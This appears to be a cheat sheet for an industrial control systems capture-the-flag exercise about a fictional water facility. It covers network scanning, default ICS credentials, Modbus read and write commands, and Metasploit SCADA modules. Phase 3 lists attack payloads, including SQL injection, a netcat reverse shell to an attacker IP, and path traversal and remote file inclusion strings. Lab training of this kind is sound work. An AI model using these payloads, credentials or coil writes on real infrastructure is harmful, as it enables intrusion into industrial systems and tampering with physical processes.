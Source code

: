 # Industrial Intrusion CTF: The Ultimate Cheat Sheet

## **MISSION BRIEFING: OPERATION VIRELIA WATER**

**Situation:** The Virelia Water Control Facility is compromised. Our initial intel suggests a sophisticated attacker has breached their systems and left a persistent backdoor. They are still active.

**Your Objective:** You are being covertly inserted into their network. Your team's mission is to move through the facility's digital infrastructure, from the front-facing corporate systems to the core of their Industrial Control Systems (ICS). You will hunt for flags left as breadcrumbs, identify the attacker's hidden implant, and ultimately, understand their motives. This is a live environment; expect the unexpected.

**Flag Format:** `THM{some_text_here}`

---

## **PHASE 1: RECONNAISSANCE & INFILTRATION**

### **Network Discovery & ICS Fingerprinting**

Your first step is to map the network. Standard port scans are for script kiddies. We need surgical precision to identify the juicy ICS targets without raising alarms.

**Nmap - The Swiss Army Knife:**

* **Initial Sweep (All Ports, Service Versions):**
    ```bash
    nmap -sV -p- -T4 <TARGET_IP_RANGE> -oN nmap_initial_scan
    ```
    * `-sV`: Service version detection (crucial for identifying HMI software).
    * `-p-`: Scan all 65535 TCP ports. ICS services love non-standard ports.
    * `-T4`: Aggressive timing. You're on a mission, not a leisurely stroll.
    * `-oN`: Save the output for later analysis.

* **Targeted ICS Scan (Using Nmap Scripting Engine - NSE):**
    Once you have a list of IPs, run a more focused scan on potential ICS devices.
    ```bash
    nmap --script "modbus-discover,s7-info,enip-info" -p 502,102,44818 <TARGET_IP>
    ```
    * `--script "..."`:  This is where the magic happens. These scripts are specifically designed to query ICS services.
        * `modbus-discover`:  Probes for Modbus devices (port 502) and attempts to get Unit IDs.
        * `s7-info`:  Gathers detailed information from Siemens S7 PLCs (port 102).
        * `enip-info`:  Enumerates EtherNet/IP devices (port 44818).

| Protocol        | Default TCP Port | What It Is                                | Nmap NSE Script      |
| :-------------- | :--------------- | :---------------------------------------- | :------------------- |
| **Modbus** | 502              | Ubiquitous, simple master-slave protocol. | `modbus-discover`    |
| **DNP3** | 20000            | Common in utilities (water/electric).     | `dnp3-info`          |
| **S7** | 102              | Siemens PLC communication.                | `s7-info`            |
| **EtherNet/IP** | 44818            | Industrial Ethernet protocol.             | `enip-info`          |
| **HTTP/HTTPS** | 80, 443          | Your gateway to HMIs (Human-Machine Interfaces). | `http-enum`, `http-title` |

### **Web-Based HMI Exploitation**

HMIs are the control panels of the industrial world, and many are just glorified, and often insecure, web pages.

* **Directory & File Brute-Forcing (Gobuster):**
    Never underestimate what's left lying around.
    ```bash
    gobuster dir -u http://<HMI_IP> -w /usr/share/wordlists/dirb/common.txt -x .php,.bak,.txt,.old
    ```
    * **Look for:** `config.php.bak`, `backup.zip`, `manual.pdf`, `/api/`, `/admin/`

* **Vulnerability Scanning (Nikto):**
    Get a quick and dirty overview of potential vulnerabilities.
    ```bash
    nikto -h http://<HMI_IP>
    ```
    * **Focus on:** Outdated server software, default files, and configuration weaknesses.

* **Default Credentials - The Keys to the Kingdom:**
    ICS vendors are notorious for this. **ALWAYS TRY THESE FIRST.**

| Vendor/Software | Username | Password   |
| :-------------- | :------- | :--------- |
| Rockwell        | admin    | password   |
| Schneider       | admin    | admin      |
| Siemens         | admin    | admin      |
| **Generic** | admin    | 1234       |
| **Generic** | operator | operator   |
| **Generic** | root     | (blank)    |

> **[!] FURTHER RESEARCH AREA:** Research the specific HMI software you identify (e.g., "Wonderware," "Ignition," "WinCC"). Each has its own set of common vulnerabilities and default credentials.

---

## **PHASE 2: ICS PROTOCOL INTERACTION**

### **Modbus - The Workhorse**

Modbus is insecure by design—no authentication, no encryption. It's a goldmine.

**Modbus Concepts:**

* **Coils:** Read/Write, single-bit values (think On/Off).
* **Holding Registers:** Read/Write, 16-bit values (used for configuration and operational data).
* **Input Registers:** Read-Only, 16-bit values (from sensors).
* **Discrete Inputs:** Read-Only, single-bit values.

**Interacting with `modbus-cli`:**

* **Read 10 Holding Registers starting from address 0:**
    ```bash
    modbus-cli --host <TARGET_IP> read-holding-registers 0 10
    ```
* **Write the value 1 to a Coil at address 5 (e.g., turn on a pump):**
    ```bash
    modbus-cli --host <TARGET_IP> write-coil 5 1
    ```

**Flag Hunting in Modbus:** Flags can be hidden in registers. A sequence of register values might be ASCII characters.

* **Python `pymodbus` Script for Flag Hunting:**

    ```python
    from pymodbus.client.sync import ModbusTcpClient

    TARGET_IP = '<TARGET_IP>'
    client = ModbusTcpClient(TARGET_IP)
    client.connect()

    flag = ""
    # Let's assume the flag is in holding registers 100-120
    response = client.read_holding_registers(100, 20) 

    if not response.isError():
        for value in response.registers:
            # Each 16-bit register can hold two 8-bit ASCII characters
            high_byte = (value >> 8) & 0xff
            low_byte = value & 0xff
            if high_byte != 0:
                flag += chr(high_byte)
            if low_byte != 0:
                flag += chr(low_byte)

    print(f"Possible Flag: {flag}")
    client.close()
    ```

> **[!] FURTHER RESEARCH AREA:** Explore Modbus function codes. Codes like `Read/Write File Record` (Function 20/21) can sometimes be used to pull entire files or configuration data off a device.

---

## **PHASE 3: EXPLOITATION & PIVOTING**

### **Common Attack Vectors & Payloads**

* **SQL Injection (in HMI login/search fields):**
    ```sql
    ' OR 1=1 --
    ```
* **Command Injection (in HMI diagnostic pages):**
    ```
    ; ls -la
    ; nc -e /bin/bash <YOUR_IP> <YOUR_PORT>
    ```
* **Local/Remote File Inclusion (LFI/RFI):**
    ```
    ../../../../etc/passwd
    http://<YOUR_IP>/shell.txt
    ```

### **Metasploit for ICS**

Metasploit has a dedicated section for SCADA.

* **Launch and search for Modbus modules:**
    ```bash
    msfconsole
    search modbus
    ```
* **Example Module Usage (Modbus Scanner):**
    ```
    use auxiliary/scanner/scada/modbus_findunitid
    set RHOSTS <TARGET_IP>
    run
    ```

### **Post-Exploitation - What to Look For**

You have a foothold. Now what?

1.  **Find the Ladder Logic:** This is the code that runs on PLCs. It's often stored as files with extensions like `.L5K` or `.ACD`. Analyzing this logic can reveal exactly how the industrial process works and how to manipulate it.
2.  **Network Traffic Analysis:** If you can get a shell, run `tcpdump`. Capture traffic and analyze it with Wireshark to find other ICS devices, communication patterns, and credentials.
3.  **Hunt for Documents:** Look for PDFs, Word documents, and text files. Engineering diagrams, network maps, and operator manuals are invaluable.
4.  **Pivoting:** Use your compromised host to scan and attack deeper parts of the network that weren't accessible before.

Good luck, operator. Make us proud.
